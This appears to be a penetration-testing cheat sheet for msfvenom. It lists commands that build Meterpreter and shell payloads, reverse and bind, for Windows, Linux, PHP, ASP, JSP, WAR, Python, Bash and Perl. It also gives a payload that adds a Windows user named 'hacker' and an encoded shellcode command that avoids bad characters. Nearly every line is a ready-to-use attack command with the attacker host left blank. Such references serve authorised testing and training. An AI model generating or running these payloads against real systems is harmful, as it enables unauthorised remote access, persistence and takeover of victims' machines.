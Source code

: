 # Msfvenom

### Windows Payloads <a id="windows-payloads"></a>

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

### Linux Payloads <a id="linux-payloads"></a>

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
```

Add a user in windows with msfvenom:

```text
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

### Web Payloads <a id="web-payloads"></a>

PHP

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '' > shell.php && pbpaste >> shell.php
```

ASP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

JSP

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```

WAR

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

### Scripting Payloads <a id="scripting-payloads"></a>

Python

```text
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
```

Bash

```text
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
```

Perl

```text
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

Creating an msfvenom payload with an encoder while removing bad characters:

```text
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

